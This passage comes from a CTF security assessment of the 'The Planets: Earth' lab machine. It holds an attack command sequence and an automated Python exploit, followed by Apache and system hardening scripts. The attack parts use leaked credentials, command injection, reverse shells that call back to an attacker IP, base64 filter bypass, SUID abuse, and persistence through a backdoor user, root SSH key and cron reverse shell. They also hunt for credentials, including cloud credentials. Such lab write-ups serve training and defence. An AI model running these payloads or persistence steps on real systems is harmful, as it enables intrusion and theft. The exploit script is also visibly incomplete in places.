        except UnicodeDecodeError:
            print(f"Binary output written to: {output_file}")
        
    except Exception as e:
        print(f"Error during decryption: {e}")
        sys.exit(1)

def brute_force_xor(ciphertext_file, wordlist_file=None):
    """Attempt XOR brute force with common keys"""
    common_keys = [
        b'password', b'secret', b'key', b'admin', b'test',
        b'earth', b'terra', b'climate', b'change', b'flag'
    ]
    
    with open(ciphertext_file, 'rb') as cf:
        ciphertext = cf.read()
    
    print("=== XOR BRUTE FORCE ATTEMPT ===")
    
    for key in common_keys:
        plaintext = bytearray()
        for i, byte in enumerate(ciphertext[:100]):  # Test first 100 bytes
            plaintext.append(byte ^ key[i % len(key)])
        
        try:
            text_result = plaintext.decode('utf-8', errors='ignore')
            if any(word in text_result.lower() for word in ['password', 'username', 'login', 'user']):
                print(f"Potential key found: {key}")
                print(f"Preview: {text_result[:100]}...")
                
                # Full decryption with found key
                full_plaintext = bytearray()
                for i, byte in enumerate(ciphertext):
                    full_plaintext.append(byte ^ key[i % len(key)])
                
                output_file = f"bruteforce_{key.decode('utf-8', errors='ignore')}.txt"
                with open(output_file, 'wb') as of:
                    of.write(full_plaintext)
                print(f"Full result saved to: {output_file}")
                
        except:
            continue

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Advanced XOR Decryption Tool')
    parser.add_argument('ciphertext', help='Ciphertext file path')
    parser.add_argument('-k', '--key', help='Key file path')
    parser.add_argument('-o', '--output', default='decrypted.txt', help='Output file path')
    parser.add_argument('-a', '--analysis', action='store_true', help='Enable analysis mode')
    parser.add_argument('-b', '--brute', action='store_true', help='Attempt brute force')
    
    args = parser.parse_args()
    
    if args.brute:
        brute_force_xor(args.ciphertext)
    elif args.key:
        xor_decrypt_advanced(args.ciphertext, args.key, args.output, args.analysis)
    else:
        print("Error: Must specify either --key for decryption or --brute for brute force")
        sys.exit(1)
PYTHON_SCRIPT

# Execute XOR decryption
python3 xor_decrypt.py encrypted_message.txt -k testdata.txt -o decrypted_credentials.txt --analysis

# ========================================
# PHASE 4: AUTHENTICATION & ACCESS
# ========================================

# Test discovered credentials on various services
# Web panel authentication
curl -v -X POST http://earth.local/admin/login \
     -d "username=terra&password=earthclimatechangebad4humans" \
     -c cookies.txt

# SSH authentication attempt (if credentials work)
sshpass -p "earthclimatechangebad4humans" ssh terra@192.168.131.130

# FTP authentication attempt (if FTP service discovered)
ftp 192.168.131.130
# Username: terra
# Password: earthclimatechangebad4humans

# ========================================
# PHASE 5: COMMAND INJECTION EXPLOITATION
# ========================================

# Basic command execution testing
curl -X POST http://earth.local/admin/execute \
     -b cookies.txt \
     -d "command=whoami" \
     --proxy http://127.0.0.1:8080  # For Burp Suite interception

# System information gathering
COMMANDS=(
    "whoami"
    "id"
    "uname -a"
    "cat /etc/passwd"
    "cat /etc/os-release"
    "ps aux"
    "netstat -tulpn"
    "ss -tulpn"
    "find / -perm -4000 -type f 2>/dev/null"
    "find / -perm -2000 -type f 2>/dev/null"
    "getcap -r / 2>/dev/null"
    "cat /proc/version"
    "cat /etc/crontab"
    "ls -la /var/www/"
    "ls -la /home/"
    "cat /var/earth_web/user_flag.txt"
)

for cmd in "${COMMANDS[@]}"; do
    echo "=== Executing: $cmd ==="
    curl -s -X POST http://earth.local/admin/execute \
         -b cookies.txt \
         -d "command=$cmd"
    echo -e "\n"
done

# ========================================
# PHASE 6: REVERSE SHELL ESTABLISHMENT
# ========================================

# Setup listener
nc -lvnp 4444 &
LISTENER_PID=$!

# Multiple reverse shell payloads (try different ones if blocked)
REVERSE_SHELLS=(
    "nc -e /bin/bash 192.168.131.128 4444"
    "bash -i >& /dev/tcp/192.168.131.128/4444 0>&1"
    "/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.128/4444 0>&1'"
    "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.131.128\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"
    "perl -e 'use Socket;\$i=\"192.168.131.128\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
    "ruby -rsocket -e'f=TCPSocket.open(\"192.168.131.128\",4444).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)'"
)

# Base64 encoding function
base64_encode_payload() {
    echo -n "$1" | base64 -w 0
}

# Try different reverse shell techniques
for payload in "${REVERSE_SHELLS[@]}"; do
    echo "Trying payload: $payload"
    
    # Direct execution
    curl -s -X POST http://earth.local/admin/execute \
         -b cookies.txt \
         -d "command=$payload" &
    
    sleep 2
    
    # Base64 encoded execution (bypass filtering)
    encoded_payload=$(base64_encode_payload "$payload")
    curl -s -X POST http://earth.local/admin/execute \
         -b cookies.txt \
         -d "command=echo '$encoded_payload' | base64 -d | bash" &
    
    sleep 3
    
    # Check if connection established
    if netstat -an | grep -q ":4444.*ESTABLISHED"; then
        echo "Reverse shell established with payload: $payload"
        break
    fi
done

# ========================================
# PHASE 7: POST-EXPLOITATION & ENUMERATION
# ========================================

# Once reverse shell is established, upgrade to interactive shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=/bin/bash

# Comprehensive Linux enumeration script
cat > /tmp/linux_enum.sh << 'ENUM_SCRIPT'
#!/bin/bash
# Comprehensive Linux Enumeration Script

echo "=== SYSTEM INFORMATION ==="
uname -a
cat /etc/os-release
cat /proc/version
hostname
uptime

echo -e "\n=== USER INFORMATION ==="
whoami
id
groups
cat /etc/passwd
cat /etc/group

echo -e "\n=== NETWORK INFORMATION ==="
ifconfig -a 2>/dev/null || ip addr show
route -n 2>/dev/null || ip route show
netstat -tulpn 2>/dev/null || ss -tulpn
cat /etc/hosts
cat /etc/resolv.conf

echo -e "\n=== PROCESS INFORMATION ==="
ps aux
ps -elf

echo -e "\n=== FILE SYSTEM INFORMATION ==="
df -h
mount
cat /etc/fstab

echo -e "\n=== SUID/SGID BINARIES ==="
find / -perm -4000 -type f -ls 2>/dev/null
find / -perm -2000 -type f -ls 2>/dev/null

echo -e "\n=== CAPABILITIES ==="
getcap -r / 2>/dev/null

echo -e "\n=== INTERESTING FILES ==="
find / -name "*.txt" -o -name "*.conf" -o -name "*.log" 2>/dev/null | grep -E "(flag|secret|password|key)" | head -20
find /home -type f -name ".*" 2>/dev/null | head -20
find /var -name "*.log" 2>/dev/null | head -10

echo -e "\n=== CRON JOBS ==="
cat /etc/crontab 2>/dev/null
ls -la /etc/cron* 2>/dev/null
crontab -l 2>/dev/null

echo -e "\n=== SUDO PRIVILEGES ==="
sudo -l 2>/dev/null

echo -e "\n=== ENVIRONMENT VARIABLES ==="
env
printenv

echo -e "\n=== HISTORY FILES ==="
find /home -name ".*history" -exec echo "=== {} ===" \; -exec cat {} \; 2>/dev/null
ENUM_SCRIPT

chmod +x /tmp/linux_enum.sh
/tmp/linux_enum.sh > /tmp/enum_results.txt 2>&1

# ========================================
# PHASE 8: PRIVILEGE ESCALATION ANALYSIS
# ========================================

# SUID binary analysis
ls -la /usr/bin/reset_root
file /usr/bin/reset_root
strings /usr/bin/reset_root | grep -E "(tmp|dev|shm|passwd|shadow)"

# Dynamic analysis with strace/ltrace
strace -f -e trace=file /usr/bin/reset_root 2>&1 | grep -E "(open|access|stat)"
ltrace /usr/bin/reset_root 2>&1

# Check for required files/conditions
ls -la /dev/shm/
ls -la /tmp/

# Binary security analysis
checksec /usr/bin/reset_root 2>/dev/null || echo "checksec not available"

# Ghidra/radare2 analysis (if available)
r2 -A /usr/bin/reset_root << 'R2_COMMANDS'
aaa
afl
pdf @main
q
R2_COMMANDS

# ========================================
# PHASE 9: SUID EXPLOITATION
# ========================================

# Create required files based on analysis
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe

# Set appropriate permissions if needed
chmod 666 /dev/shm/kHgTFI5G
chmod 666 /dev/shm/Zw7bV9U5
chmod 666 /tmp/kcM0Wewe

# Execute the SUID binary
/usr/bin/reset_root

# Test root access
su root
# Password: Earth (or whatever the binary sets)

# Verify root privileges
whoami
id
cat /etc/shadow | head -5

# ========================================
# PHASE 10: FLAG EXTRACTION & PERSISTENCE
# ========================================

# Find and extract flags
find / -name "*flag*" -type f 2>/dev/null
cat /var/earth_web/user_flag.txt
cat /root/root_flag.txt

# Extract sensitive information
cat /etc/shadow
cat /etc/passwd
cat /root/.bash_history
find /home -name ".ssh" -type d 2>/dev/null

# Create persistence mechanisms (for educational purposes)
# Add SSH key
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." > /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys

# Create backdoor user
useradd -m -s /bin/bash backdoor
echo "backdoor:password123" | chpasswd
usermod -aG sudo backdoor

# Cron job persistence
echo "*/5 * * * * nc -e /bin/bash 192.168.131.128 5555" | crontab -

# ========================================
# PHASE 11: LATERAL MOVEMENT PREPARATION
# ========================================

# Network discovery from compromised host
nmap -sn 192.168.131.0/24
arp -a
cat /etc/hosts

# Search for credentials and configuration files
grep -r -i "password" /etc/ 2>/dev/null | head -10
grep -r -i "secret" /var/www/ 2>/dev/null | head -10
find / -name "*.conf" -exec grep -l -i "password\|secret\|key" {} \; 2>/dev/null | head -10

# Database connection strings
grep -r -i "mysql\|postgresql\|mongodb" /var/www/ 2>/dev/null
grep -r -i "database" /etc/ 2>/dev/null | head -5

# Cloud credentials (if any)
find / -name ".aws" -o -name ".azure" -o -name ".gcp" 2>/dev/null
cat ~/.aws/credentials 2>/dev/null
cat ~/.azure/credentials 2>/dev/null

echo "=== ATTACK CHAIN COMPLETE ==="
echo "Successfully achieved:"
echo "1. Initial foothold via information disclosure"
echo "2. Command injection exploitation" 
echo "3. Reverse shell establishment"
echo "4. Privilege escalation to root"
echo "5. Flag extraction and system compromise"
```

### Appendix B: Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
Automated CTF Earth Exploitation Script
Educational purposes only - Use in authorized environments
"""

import requests
import base64
import subprocess
import socket
import threading
import time
import argparse
from urllib3.packages.urllib3.exceptions import InsecureRequestWarning

# Disable SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

class EarthExploit:
    def __init__(self, target_ip, attacker_ip):
        self.target_ip = target_ip
        self.attacker_ip = attacker_ip
        self.session = requests.Session()
        self.session.verify = False
        self.credentials = None
        
    def banner(self):
        print("""
╔══════════════════════════════════════════════════════════════╗
║                    CTF EARTH AUTO-EXPLOIT                   ║
║                  Educational Use Only                       ║
╚══════════════════════════════════════════════════════════════╝
        """)
    
    def log(self, message, level="INFO"):
        timestamp = time.strftime("%H:%M:%S")
        colors = {
            "INFO": "\033[94m",
            "SUCCESS": "\033[92m", 
            "WARNING": "\033[93m",
            "ERROR": "\033[91m",
            "RESET": "\033[0m"
        }
        print(f"[{timestamp}] {colors.get(level, '')}{level}{colors['RESET']}: {message}")
    
    def discover_credentials(self):
        """Phase 1: Discover and decrypt credentials"""
        self.log("Phase 1: Credential Discovery", "INFO")
        
        try:
            # Download key file
            key_url = f"https://terratest.earth.local/testdata.txt"
            key_response = self.session.get(key_url, verify=False)
            
            if key_response.status_code != 200:
                self.log("Failed to download key file", "ERROR")
                return False
                
            # Download encrypted message (this would be discovered during recon)
            # For demo purposes, assuming we found the encrypted message
            encrypted_url = f"https://terratest.earth.local/encrypted_message.txt"
            encrypted_response = self.session.get(encrypted_url, verify=False)
            
            if encrypted_response.status_code == 200:
                # XOR decryption
                key = key_response.content
                ciphertext = encrypted_response.content
                
                plaintext = bytearray()
                for i, byte in enumerate(ciphertext):
                    plaintext.append(byte ^ key[i % len(key)])
                
                decrypted = plaintext.decode('utf-8', errors='ignore')
                self.log(f"Shell response: {response.decode()}", "SUCCESS")
                conn.close()
                sock.close()
                
            except Exception as e:
                self.log(f"Listener error: {e}", "ERROR")
        
        # Start listener in background
        listener_thread = threading.Thread(target=listener)
        listener_thread.daemon = True
        listener_thread.start()
        
        time.sleep(2)  # Give listener time to start
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Try different reverse shell payloads
            payloads = [
                f"nc -e /bin/bash {self.attacker_ip} {port}",
                f"bash -i >& /dev/tcp/{self.attacker_ip}/{port} 0>&1",
                f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{self.attacker_ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"
            ]
            
            for payload in payloads:
                self.log(f"Trying payload: {payload[:50]}...", "INFO")
                
                # Direct execution
                response = self.session.post(execute_url, data={"command": payload}, timeout=5)
                time.sleep(2)
                
                # Base64 encoded execution (bypass filtering)
                encoded_payload = base64.b64encode(payload.encode()).decode()
                bypass_cmd = f"echo '{encoded_payload}' | base64 -d | bash"
                
                try:
                    response = self.session.post(execute_url, data={"command": bypass_cmd}, timeout=5)
                    time.sleep(3)
                    self.log("Reverse shell payload sent", "SUCCESS")
                    return True
                except:
                    continue
            
            self.log("All reverse shell attempts failed", "ERROR")
            return False
            
        except Exception as e:
            self.log(f"Reverse shell setup failed: {e}", "ERROR")
            return False
    
    def find_privilege_escalation(self):
        """Phase 5: Find privilege escalation vectors"""
        self.log("Phase 5: Searching for privilege escalation", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # SUID enumeration
            suid_cmd = "find / -perm -4000 -type f 2>/dev/null"
            response = self.session.post(execute_url, data={"command": suid_cmd})
            
            if "reset_root" in response.text:
                self.log("Found vulnerable SUID binary: reset_root", "SUCCESS")
                return True
            
            # Other privilege escalation checks
            priv_checks = [
                "sudo -l",
                "getcap -r / 2>/dev/null",
                "cat /etc/crontab",
                "find / -writable -type d 2>/dev/null"
            ]
            
            for check in priv_checks:
                response = self.session.post(execute_url, data={"command": check})
                self.log(f"Executed: {check}", "INFO")
            
            return True
            
        except Exception as e:
            self.log(f"Privilege escalation search failed: {e}", "ERROR")
            return False
    
    def exploit_suid_binary(self):
        """Phase 6: Exploit SUID binary"""
        self.log("Phase 6: Exploiting SUID binary", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Create required files
            setup_commands = [
                "touch /dev/shm/kHgTFI5G",
                "touch /dev/shm/Zw7bV9U5", 
                "touch /tmp/kcM0Wewe"
            ]
            
            for cmd in setup_commands:
                response = self.session.post(execute_url, data={"command": cmd})
                self.log(f"Executed: {cmd}", "INFO")
            
            # Execute SUID binary
            exploit_cmd = "/usr/bin/reset_root"
            response = self.session.post(execute_url, data={"command": exploit_cmd})
            self.log("SUID binary executed", "SUCCESS")
            
            # Test root access
            root_test = "su root -c 'whoami'"
            # Note: This might not work directly due to interactive nature of su
            # In real scenario, would establish new shell with root privileges
            
            return True
            
        except Exception as e:
            self.log(f"SUID exploitation failed: {e}", "ERROR")
            return False
    
    def extract_flags(self):
        """Phase 7: Extract flags and sensitive data"""
        self.log("Phase 7: Flag extraction", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Find flags
            flag_commands = [
                "find / -name '*flag*' -type f 2>/dev/null",
                "cat /var/earth_web/user_flag.txt",
                "cat /root/root_flag.txt 2>/dev/null"
            ]
            
            for cmd in flag_commands:
                response = self.session.post(execute_url, data={"command": cmd})
                if response.text and len(response.text.strip()) > 0:
                    self.log(f"Command: {cmd}", "INFO")
                    self.log(f"Result: {response.text[:200]}", "SUCCESS")
            
            return True
            
        except Exception as e:
            self.log(f"Flag extraction failed: {e}", "ERROR")
            return False
    
    def cleanup(self):
        """Clean up exploitation artifacts"""
        self.log("Cleaning up artifacts", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            cleanup_commands = [
                "rm -f /dev/shm/kHgTFI5G",
                "rm -f /dev/shm/Zw7bV9U5",
                "rm -f /tmp/kcM0Wewe"
            ]
            
            for cmd in cleanup_commands:
                self.session.post(execute_url, data={"command": cmd})
            
            self.log("Cleanup completed", "SUCCESS")
            
        except:
            self.log("Cleanup failed", "WARNING")
    
    def run_full_exploit(self):
        """Execute complete exploitation chain"""
        self.banner()
        
        phases = [
            ("Credential Discovery", self.discover_credentials),
            ("Admin Authentication", self.authenticate_admin_panel),
            ("Command Execution Test", self.test_command_execution),
            ("Reverse Shell Setup", self.setup_reverse_shell),
            ("Privilege Escalation Search", self.find_privilege_escalation),
            ("SUID Binary Exploitation", self.exploit_suid_binary),
            ("Flag Extraction", self.extract_flags)
        ]
        
        for phase_name, phase_func in phases:
            self.log(f"Starting {phase_name}", "INFO")
            success = phase_func()
            
            if not success:
                self.log(f"{phase_name} failed - continuing...", "WARNING")
            
            time.sleep(1)
        
        self.cleanup()
        self.log("Exploitation chain completed", "SUCCESS")

def main():
    parser = argparse.ArgumentParser(description='CTF Earth Automated Exploit')
    parser.add_argument('target', help='Target IP address')
    parser.add_argument('attacker', help='Attacker IP address') 
    parser.add_argument('--port', type=int, default=4444, help='Reverse shell port')
    
    args = parser.parse_args()
    
    exploit = EarthExploit(args.target, args.attacker)
    exploit.run_full_exploit()

if __name__ == "__main__":
    main()
```

### Appendix C: Security Configuration Templates

#### C.1 Apache Security Hardening Configuration

```apache
# /etc/httpd/conf.d/security.conf
# Apache Security Hardening Configuration

# Hide Apache version and OS information
ServerTokens Prod
ServerSignature Off

# Disable dangerous HTTP methods
<LimitExcept GET POST HEAD>
    Require all denied
</LimitExcept>

# Disable TRACE method (prevents XST attacks)
TraceEnable Off

# Prevent access to .htaccess and .htpasswd files
<FilesMatch "^\.ht">
    Require all denied
</FilesMatch>

# Prevent access to sensitive file types
<FilesMatch "\.(txt|md|log|bak|backup|old|temp|tmp|conf|ini)$">
    Require all denied
</FilesMatch>

# Security Headers
Header always set X-Content-Type-Options nosniff
Header always set X-Frame-Options DENY
Header always set X-XSS-Protection "1; mode=block"
Header always set Referrer-Policy "strict-origin-when-cross-origin"
Header always set Permissions-Policy "geolocation=(), microphone=(), camera=()"

# HSTS (HTTP Strict Transport Security)
Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains; preload"

# Content Security Policy (adjust as needed)
Header always set Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; connect-src 'self'; font-src 'self'; object-src 'none'; media-src 'self'; frame-ancestors 'none';"

# Prevent clickjacking
Header always set X-Frame-Options SAMEORIGIN

# Timeout settings
Timeout 60
KeepAliveTimeout 5

# Limit request size
LimitRequestBody 10485760  # 10MB

# Directory browsing disabled
Options -Indexes

# Follow symlinks disabled
Options -FollowSymLinks

# Server-side includes disabled
Options -Includes

# CGI execution disabled
Options -ExecCGI

# Multiviews disabled
Options -MultiViews

# Admin panel IP restrictions
<Location "/admin">
    Require ip 192.168.1.0/24
    Require ip 10.0.0.0/8
    # Add your management IPs here
</Location>

# Log security events
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\" %D" combined_with_time
CustomLog logs/security_access.log combined_with_time

# Error log configuration
ErrorLog logs/security_error.log
LogLevel warn

# SSL/TLS Configuration (if using HTTPS)
SSLProtocol -all +TLSv1.2 +TLSv1.3
SSLCipherSuite ECDHE+AESGCM:ECDHE+CHACHA20:DHE+AESGCM:DHE+CHACHA20:!aNULL:!MD5:!DSS
SSLHonorCipherOrder on
```

#### C.2 System Hardening Script

```bash
#!/bin/bash
# System Security Hardening Script
# For RHEL/CentOS/Fedora systems

set -euo pipefail

log() {
    echo "[$(date +'%Y-%m-%d %H:%M:%S')] $1"
}

log "Starting system hardening..."

# Update system packages
log "Updating system packages..."
dnf update -y

# Remove unnecessary packages
log "Removing unnecessary packages..."
dnf remove -y telnet rsh rlogin finger tftp xinetd

# Configure firewall
log "Configuring firewall..."
systemctl enable firewalld
systemctl start firewalld

# Allow only necessary services
firewall-cmd --permanent --remove-service=dhcpv6-client
firewall-cmd --permanent --add-service=ssh
firewall-cmd --permanent --add-service=http
firewall-cmd --permanent --add-service=https
firewall-cmd --reload

# SSH hardening
log "Hardening SSH configuration..."
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup

cat > /etc/ssh/sshd_config.secure << 'EOF'
# SSH Security Configuration
Port 2222
Protocol 2
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
PermitEmptyPasswords no
MaxAuthTries 3
MaxStartups 10:30:100
LoginGraceTime 30
ClientAliveInterval 300
ClientAliveCountMax 2
AllowUsers admin
DenyUsers root
X11Forwarding no
UsePAM yes
Subsystem sftp /usr/libexec/openssh/sftp-server
EOF

# Backup original and apply secure config
mv /etc/ssh/sshd_config.secure /etc/ssh/sshd_config
systemctl restart sshd

# Audit SUID/SGID binaries
log "Auditing SUID/SGID binaries..."
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null > /var/log/suid_sgid_audit.log

# Remove unnecessary SUID/SGID bits (careful with this!)
SUID_TO_REMOVE=(
    "/usr/bin/chage"
    "/usr/bin/gpasswd"
    "/usr/bin/wall"
    "/usr/bin/chfn"
    "/usr/bin/chsh"
    "/usr/bin/newgrp"
    "/usr/bin/write"
)

for binary in "${SUID_TO_REMOVE[@]}"; do
    if [ -f "$binary" ]; then
        log "Removing SUID bit from $binary"
        chmod u-s "$binary"
    fi
done

# Configure auditd
log "Configuring system auditing..."
systemctl enable auditd

cat > /etc/audit/rules.d/custom.rules << 'EOF'
# Custom Audit Rules

# Monitor SUID binary executions
-a always,exit -F arch=b64 -S execve -F perm=x -F auid>=1000 -F auid!=-1 -k suid_exec
-a always,exit -F arch=b32 -S execve -F perm=x -F auid>=1000 -F auid!=-1 -k suid_exec

# Monitor file access in sensitive directories
-w /etc/passwd -p wa -k user_modification
-w /etc/shadow -p wa -k password_modification
-w /etc/sudoers -p wa -k sudo_modification
-w /etc/ssh/sshd_config -p wa -k ssh_config_change

# Monitor temporary directories
-w /tmp -p wa -k temp_file_access
-w /dev/shm -p wa -k shared_memory_access

# Monitor privilege escalation
-a always,exit -F arch=b64 -S setuid -S setgid -S setreuid -S setregid -k privilege_escalation
-a always,exit -F arch=b32 -S setuid -S setgid -S setreuid -S setregid -k privilege_escalation

# Monitor network connections
-a always,exit -F arch=b64 -S socket -F a0=2 -k network_connect
-a always,exit -F arch=b32 -S socket -F a0=2 -k network_connect
EOF

systemctl restart auditd

# Configure fail2ban
log "Installing and configuring fail2ban..."
dnf install -y fail2ban

cat > /etc/fail2ban/jail.local << 'EOF'
[DEFAULT]
bantime = 3600
findtime = 600
maxretry = 3
ignoreip = 127.0.0.1/8 192.168.1.0/24

[sshd]
enabled = true
port = 2222
logpath = /var/log/secure

[apache-auth]
enabled = true
filter = apache-auth
logpath = /var/log/httpd/*error.log
maxretry = 3

[apache-badbots]
enabled = true
filter = apache-badbots
logpath = /var/log/httpd/*access.log
maxretry = 2

[apache-noscript]
enabled = true
filter = apache-noscript
logpath = /var/log/httpd/*access.log
maxretry = 3
EOF

systemctl enable fail2ban
systemctl start fail2ban

# Configure AIDE (file integrity monitoring)
log "Installing and configuring AIDE..."
dnf install -y aide

# Initialize AIDE database
aide --init
cp /var/lib/aide/aide.db.new.gz /var/lib/aide/aide.db.gz

# Setup daily AIDE checks
cat > /etc/cron.daily/aide-check << 'EOF'
#!/bin/bash
/usr/sbin/aide --check | mail -s "AIDE Report - $(hostname)" admin@company.com
EOF

chmod +x /etc/cron.daily/aide-check

# Secure shared memory
log "Securing shared memory..."
echo "tmpfs /dev/shm tmpfs defaults,nosuid,noexec,nodev 0 0" >> /etc/fstab

# Configure sysctl security parameters
log "Configuring kernel security parameters..."
cat > /etc/sysctl.d/99-security.conf << 'EOF'
# Network security
net.ipv4.conf.all.send_redirects = 0
net.ipv4.conf.default.send_redirects = 0
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.default.secure_redirects = 0
net.ipv4.conf.all.accept_source_route = 0
net.ipv4.conf.default.accept_source_route = 0
net.ipv4.conf.all.log_martians = 1
net.ipv4.conf.default.log_martians = 1
net.ipv4.icmp_echo_ignore_broadcasts = 1
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.tcp_syncookies = 1
net.ipv4.ip_forward = 0

# Memory protections
kernel.dmesg_restrict = 1
kernel.kptr_restrict = 2
kernel.yama.ptrace_scope = 1

# File system protections
fs.suid_dumpable = 0
fs.protected_hardlinks = 1
fs.protected_symlinks = 1
EOF

sysctl -p /etc/sysctl.d/99-security.conf

# Setup log monitoring
log "Configuring log monitoring..."
cat > /usr/local/bin/security_monitor.sh << 'EOF'
#!/bin/bash
# Security Event Monitor

LOGFILE="/var/log/security_monitor.log"
ALERT_EMAIL="admin@company.com"

# Check for failed login attempts
FAILED_LOGINS=$(grep "Failed password" /var/log/secure | grep "$(date '+%b %d')" | wc -l)
if [ "$FAILED_LOGINS" -gt 10 ]; then
    echo "$(date): High number of failed logins detected: $FAILED_LOGINS" | tee -a "$LOGFILE" | mail -s "Security Alert: Failed Logins" "$ALERT_EMAIL"
fi

# Check for SUID binary executions
if ausearch -k suid_exec -ts today | grep -q "type=SYSCALL"; then
    echo "$(date): SUID binary execution detected" | tee -a "$LOGFILE" | mail -s "Security Alert: SUID Execution" "$ALERT_EMAIL"
fi

# Check for privilege escalation attempts
if ausearch -k privilege_escalation -ts today | grep -q "type=SYSCALL"; then
    echo "$(date): Privilege escalation attempt detected" | tee -a "$LOGFILE" | mail -s "Security Alert: Privilege Escalation" "$ALERT_EMAIL"
fi

# Check for suspicious file access
if ausearch -k temp_file_access -ts today | grep -q "type=PATH"; then
    echo "$(date): Suspicious temporary file access detected" | tee -a "$LOGFILE"
fi
EOF

chmod +x /usr/local/bin/security_monitor.sh

# Add to crontab for regular execution
echo "*/15 * * * * /usr/local/bin/security_monitor.sh" | crontab -

# Set file permissions
log "Setting secure file permissions..."
chmod 644 /etc/passwd
chmod 600 /etc/shadow
chmod 644 /etc/group
chmod 600 /etc/gshadow
chmod 600 /boot/grub2/grub.cfg

# Create security checklist
log "Creating security validation checklist..."
cat > /root/security_checklist.sh << 'EOF'
#!/bin/bash
# Security Configuration Validation Checklist

echo "=== Security Configuration Validation ==="

# Check SUID binaries
echo "[1/10] Checking SUID binary count..."
SUID_COUNT=$(find / -type f -perm -4000 2>/dev/null | wc -l)
echo "Current SUID binary count: $SUID_COUNT"

# Check SSH configuration
echo "[2/10] Validating SSH configuration..."
sshd -t && echo "SSH config: VALID" || echo "SSH config: INVALID"

# Check firewall status
echo "[3/10] Checking firewall status..."
firewall-cmd --state

# Check audit daemon
echo "[4/10] Checking audit daemon..."
systemctl is-active auditd

# Check fail2ban status
echo "[5/10] Checking fail2ban status..."
systemctl is-active fail2ban

# Check for unauthorized SUID files
echo "[6/10] Checking for new SUID binaries..."
if [ -f /var/log/suid_sgid_audit.log ]; then
    find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null | diff /var/log/suid_sgid_audit.log - || echo "New SUID/SGID binaries detected!"
fi

# Check system updates
echo "[7/10] Checking for available updates..."
dnf check-update | grep -c "^[[:alnum:]]" || echo "System is up to date"

# Check critical file permissions
echo "[8/10] Validating critical file permissions..."
ls -l /etc/passwd /etc/shadow /etc/ssh/sshd_config

# Check running services
echo "[9/10] Checking running services..."
systemctl list-units --type=service --state=running | grep -E "(httpd|sshd|firewalld|auditd|fail2ban)"

# Check log files
echo "[10/10] Checking recent security events..."
tail -n 10 /var/log/security_monitor.log 2>/dev/null || echo "No security events logged yet"

echo "=== Validation Complete ==="
EOF

chmod +x /root/security_checklist.sh

log "System hardening completed successfully!"
log "Run /root/security_checklist.sh to validate the security configuration"
```

---

## 12. Conclusion

This comprehensive security assessment of the CTF "The Planets: Earth" environment revealed a complete attack chain that allowed escalation from anonymous web access to full root privileges. The vulnerabilities identified represent common security weaknesses found in production environments:

### 12.1 Key Takeaways

1. **Defense in Depth**: No single security control would have prevented this compromise. Multiple layers of security are essential.

2. **Secure Development Practices**: The root cause was poor security practices during development - hardcoded secrets, dangerous functionality in production, and insecure SUID binaries.

3. **Monitoring and Detection**: The attack chain could have been detected and stopped at multiple points with proper logging and monitoring.

4. **Privilege Management**: The SUID binary represented the most critical vulnerability, demonstrating why privileged binaries require careful design and regular auditing.

### 12.2 Strategic Recommendations

**Immediate (0-30 days):**
- Implement comprehensive SUID/SGID binary auditing
- Deploy web application firewalls with command injection protection
- Establish centralized logging and SIEM monitoring
- Remove or secure administrative interfaces

**Short-term (1-6 months):**
- Implement secrets management solution (HashiCorp Vault, AWS Secrets Manager)
- Integrate SAST/DAST tools into CI/CD pipelines  
- Deploy endpoint detection and response (EDR) solutions
- Conduct regular vulnerability assessments

**Long-term (6+ months):**
- Establish security champions program for development teams
- Implement zero-trust network architecture
- Deploy application security testing throughout SDLC
- Create incident response playbooks and conduct tabletop exercises

### 12.3 Business Impact

In a production environment, this level of compromise could result in:
- Complete data breach with regulatory fines (GDPR, HIPAA, PCI-DSS)
- Business disruption and downtime costs
- Reputational damage and customer trust erosion
- Intellectual property theft
- Ransomware deployment potential

### 12.4 Final Notes

This assessment demonstrates the importance of:
- **Secure by Design**: Building security into applications from the ground up
- **Regular Security Testing**: Proactive identification of vulnerabilities
- **Defense in Depth**: Multiple security layers to prevent single points of failure
- **Incident Response Preparation**: Ready procedures for when breaches occur

